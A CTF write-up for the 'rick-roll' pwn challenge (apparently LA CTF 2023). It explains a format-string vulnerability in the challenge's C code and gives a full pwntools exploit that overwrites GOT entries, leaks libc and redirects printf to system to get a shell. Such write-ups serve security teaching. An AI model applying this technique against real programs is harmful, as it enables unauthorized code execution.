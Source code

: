 +++
authors = ["laozi"]
title = "pwn/rick-roll"
date = "2023-02-12"
+++

### The Vulnerability

This is a simple format string vulnerability. The program gets the user's
input then calls `printf()` on the user's input. This is a very common
vulnerability and a reason why developers should never be calling printf
directly on user input. Here's the code from the chall:

```c
int main(void) {
    if (main_called) {
        puts("nice try");
        return 1;
    }
    main_called = 1;
    setbuf(stdout, NULL);
    printf("Lyrics: ");
    char buf[256];
    fgets(buf, 256, stdin);
    printf("Never gonna give you up, never gonna let you down\nNever gonna run around and ");
    printf(buf);
    printf("Never gonna make you cry, never gonna say goodbye\nNever gonna tell a lie and hurt you\n");
    return 0;
}
```

So there's a small security measure that makes it so you can't call main twice.
That's fine though cause you can just jump into the middle of the main function.
So you can just use the pwntools library to create the format string writes for
you. You just need to find the offset of your input in the printf call. The
compiler also changes the last printf call to `puts()` so you can utilize that
knowledge to overwrite the GOT of puts with the location of `fgets()` in the `main()`
function. Then you can just get as much input as you want since it loops. Next step
is to leak libc and replace `printf()` with `system()`. Here's the exploit.

```python
#!/usr/bin/env python3
from pwn import *
elf = ELF("./rickroll_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")
context.terminal = ['tmux', 'splitw', '-h']
context.binary = elf
debug_script = '''
'''
def conn():
    if not args.REMOTE:
        p = process([elf.path])
        if args.D:
            gdb.attach(p, gdbscript=debug_script)
    else:
        p = remote("lac.tf", 31135)
    return p
p = conn()
p.recvuntil(b'Lyrics: ')
writes = {elf.got['puts']:0x00000000004011ac}
payload = fmtstr_payload(6, writes, numbwritten=0)
p.sendline(payload)
p.recv()
p.sendline(b"%p"*40)
p.recvline()
x = p.recvline()
libc.address = int(x[-15:-1],16) - 146698
print(hex(libc.address))
writes = {elf.got['printf']:libc.symbols['system']}
payload = fmtstr_payload(8, writes, numbwritten=0)
p.sendline(payload)
p.interactive()
```
